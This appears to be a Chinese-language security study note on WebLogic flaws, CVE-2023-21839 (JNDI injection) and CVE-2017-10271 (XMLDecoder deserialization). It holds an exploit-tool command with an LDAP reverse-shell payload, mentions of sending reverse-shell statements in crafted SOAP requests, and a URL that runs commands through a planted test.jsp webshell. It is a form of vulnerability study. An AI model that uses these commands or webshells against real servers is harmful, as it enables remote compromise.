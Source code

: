 ```
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/4444
```
CVE-2023-21839是一个weblogic的JNDI注入漏洞。它与CVE-2020-2551有些相似，但又不同：

相同点：都利用了weblogic的远程jndi绑定对象机制，最终都造成了jndi注入

不同点：CVE-2020-2551使用的是iiop协议，利用的是RMI-IIOP传输数据过程中的序列化与反序列化触发漏洞类与漏洞函数；而CVE-2023-21839是通过远程绑定恶意对象后再对其进行查询来调用漏洞函数，使用t3或者iiop协议均可。

## wls-wsat XMLDecoder 反序列化漏洞（CVE-2017-10271）
CVE-2017-10271漏洞主要是由WebLogic Server WLS组件远程命令执行漏洞，主要由wls-wsat.war触发该漏洞，触发漏洞url如下： http://192.168.xx.xx:7001/wls-wsat/CoordinatorPortType post数据包，通过构造构造SOAP（XML）格式的请求，在解析的过程中导致XMLDecoder反序列化漏洞。

*这里其实也就是weblogic中的WLS组件接收到SOAP格式的请求后，未对解析xml后的类，参数等进行处理，一系列传入最后执行了`xmlDecoder.readObject`触发调用了类中的方法，产生漏洞。*
跟进`readUTF`，在这里进行了`xmlDecoder.readObject`触发了`xmlDecoder`的反序列化，执行了`ProcessBuilder.start()`

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。
抓包发送数据(其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误；还需要注意一下content-type类型)
![](../attaches/Pasted%20image%2020230410134341.png)
也可以利用xml写shell
访问`http://ip:7001/bea_wls_internal/test.jsp?pwd=Sentiment&cmd=id`执行命令
